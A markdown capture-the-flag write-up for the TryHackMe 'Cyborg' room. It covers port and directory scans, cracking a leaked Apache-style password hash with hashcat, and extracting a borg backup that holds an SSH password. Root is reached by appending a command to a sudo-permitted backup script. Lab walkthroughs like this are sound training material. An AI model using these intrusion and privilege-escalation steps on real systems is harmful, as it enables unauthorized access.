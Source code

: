 # THM | Cyborg

A box involving encrypted archives, source code analysis and more.

![image-20210125203617103](Untitled.assets/image-20210125203617103.png)

------
[Room link](https://tryhackme.com/room/cyborgt8)



### Namp scan :

```sh
└──╼ $nmap -vv -A 10.10.222.225
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-25 17:20 +01
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
Initiating Ping Scan at 17:20
Scanning 10.10.222.225 [2 ports]
Completed Ping Scan at 17:20, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:20
Completed Parallel DNS resolution of 1 host. at 17:20, 0.07s elapsed
Initiating Connect Scan at 17:20
Scanning 10.10.222.225 [1000 ports]
Discovered open port 80/tcp on 10.10.222.225
Discovered open port 22/tcp on 10.10.222.225
Completed Connect Scan at 17:20, 18.36s elapsed (1000 total ports)
Initiating Service scan at 17:20
Scanning 2 services on 10.10.222.225
Completed Service scan at 17:20, 6.57s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.222.225.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:21, 8.70s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 1.07s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
Nmap scan report for 10.10.222.225
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-01-25 17:20:29 +01 for 35s
Not shown: 995 closed ports
Reason: 995 conn-refused
PORT      STATE    SERVICE   REASON      VERSION
22/tcp    open     ssh       syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp    open     http      syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
1500/tcp  filtered vlsi-lm   no-response
3006/tcp  filtered deslogind no-response
16016/tcp filtered unknown   no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.51 seconds
```

1. Scan the machine, how many ports are open?                            

​	response : 2

2. What service is running on port 22?

​	response : ssh

3. What service is running on port 80?

​	response : http

### Dirsearch :

```sh
└──╼ $dirsearch -u <machine-ip> -e *

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: GET | Threads: 20 | Wordlist size: 7140

Error Log: /home/itatshi/Desktop/tools/dirsearch/logs/errors-21-01-25_17-20-59.log

Target: http://10.10.222.225/

Output File: /home/itatshi/Desktop/tools/dirsearch/reports/10.10.222.225/_21-01-25_17-21-00.txt

[17:21:00] Starting: 
[17:21:08] 403 -  278B  - /.htaccess.bak1
[17:21:08] 403 -  278B  - /.htaccess.orig
[17:21:08] 403 -  278B  - /.htaccess.save
[17:21:08] 403 -  278B  - /.htaccess.sample
[17:21:08] 403 -  278B  - /.htaccessBAK
[17:21:09] 403 -  278B  - /.html
[17:21:09] 403 -  278B  - /.htm
[17:21:09] 403 -  278B  - /.htaccessOLD
[17:21:09] 403 -  278B  - /.htaccessOLD2
[17:21:09] 403 -  278B  - /.httr-oauth
[17:21:32] 301 -  314B  - /admin  ->  http://10.10.222.225/admin/
[17:21:33] 200 -    6KB - /admin/
[17:21:33] 200 -    6KB - /admin/?/login
[17:21:33] 403 -  278B  - /admin/.htaccess
[17:21:35] 200 -    6KB - /admin/index.html
[17:21:59] 301 -  312B  - /etc  ->  http://10.10.222.225/etc/
[17:22:06] 200 -   11KB - /index.html
[17:22:29] 403 -  278B  - /server-status
[17:22:29] 403 -  278B  - /server-status/
```

Browse to <machine-ip>/etc/ . you'll see :

![image-20210125205337915](Untitled.assets/image-20210125205337915.png)

go to squid/passwd .

create a file hash.txt and past the passwd hash inside it . then crack it using hashcat or john .

```sh
└──╼ $cat hash.txt 
$apr1$BpZ.Q.1m$F0****************QTTn.
└──╼ $hashcat -m 1600 hash.txt /opt/seclists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-8250U CPU @ 1.60GHz, 5708/5772 MB (2048 MB allocatable), 8MCU

```

we will need that password later .

Browse to http://<machine-ip>/admin/ 

![image-20210125204342279](Untitled.assets/image-20210125204342279.png)

go to Archive>>Download and download the tar file .

extract it and browse it 

after reading the README file , you'll know that you have to install borg .

#### Install borg 

```sh
wget https://github.com/borgbackup/borg/releases/download/1.1.15/borg-linux64
sudo cp borg-linux64 /usr/local/bin/borg
sudo chown root:root /usr/local/bin/borg
sudo chmod 755 /usr/local/bin/borg
```

let's now extract the archive_music using borg .

```sh
└──╼ $borg list final_archive/
Enter passphrase for key /home/itatshi/Desktop/THM/cyborg/final_archive: 
music_archive                        Tue, 2020-12-29 15:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
┌─[✗]─[itatshi@parrot]─[~/Desktop/THM/cyborg]
└──╼ $borg extract ./final_archive::music_archive
Enter passphrase for key /home/itatshi/Desktop/THM/cyborg/final_archive: 

```

we successfully extract it . let's go to home/alex/Documents

```sh
┌─[itatshi@parrot]─[~/Desktop/THM/cyborg/home/alex/Documents]
└──╼ $cat note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3******3

```

we found alex password . let's ssh it now :

```sh
└──╼ $ssh alex@<machine-ip>
alex@10.10.175.120's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


27 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

alex@ubuntu:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
alex@ubuntu:~$ cat user.txt 

```

Boom , we got the user flag .

let's get the root flag now .

### Privilege Escalation :

```sh
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
alex@ubuntu:~$ id
uid=1000(alex) gid=1000(alex) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

```

we can run /etc/mp3backups/backup.sh as root :

let's use it to get the root flag .

```sh
cd /etc/mp3backups
chmod 777 backup.sh
echo "cat /root/root.txt > backed_up_files.txt" >> backup.sh
sudo ./backup.sh

```

let's now read the flag .

```sh
alex@ubuntu:/etc/mp3backups$ cat backed_up_files.txt 
flag{Th**************************053d}
alex@ubuntu:/etc/mp3backups$ 
```

Great , we found the root flag .

![image-20210125203205943](Untitled.assets/image-20210125203205943.png)

Happy Hacking.

